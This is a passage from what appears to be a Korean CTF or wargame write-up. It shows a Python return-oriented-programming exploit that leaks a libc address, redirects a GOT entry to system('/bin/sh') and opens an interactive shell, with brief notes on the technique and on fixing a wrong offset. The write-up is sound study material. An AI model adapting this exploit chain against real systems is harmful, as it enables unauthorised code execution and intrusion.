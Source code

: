 ```python
payload += p64(16)          # 8
payload += p64(0x400440)   # read@plt
# write(0x601020,0,0)
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(0x601020)   # /bin/sh
payload += p64(0)          # 0
payload += p64(0)          # 0
payload += p64(0x400430)   # write@plt
writeline(s, payload)

libc = u64(read(out_r,8)[:8])
base = libc - 0xd5c90
system = base + 0x3adb0
print hex(libc)
writeline(s, p64(system)+"/bin/sh\x00")
while True:
  cmd = raw_input("$ ")
  writeline(s, cmd)
  time.sleep(0.2)
  print read(out_r, 1024)
```

- 최종적으로 write 함수를 호출하고 "/bin/sh" 문자열 주소인 0x601020를 첫 번째 인자로 전달하면 쉘을 획득할 수 있다.

![image](https://user-images.githubusercontent.com/59410565/119253048-41772200-bbea-11eb-91ea-68b75b1cbb33.png)

> 왜 IOError : [Errno 32] Broken pipe 오류가 발생할까...?
>
> -> offset을 잘못 구했었음!! 해결~~

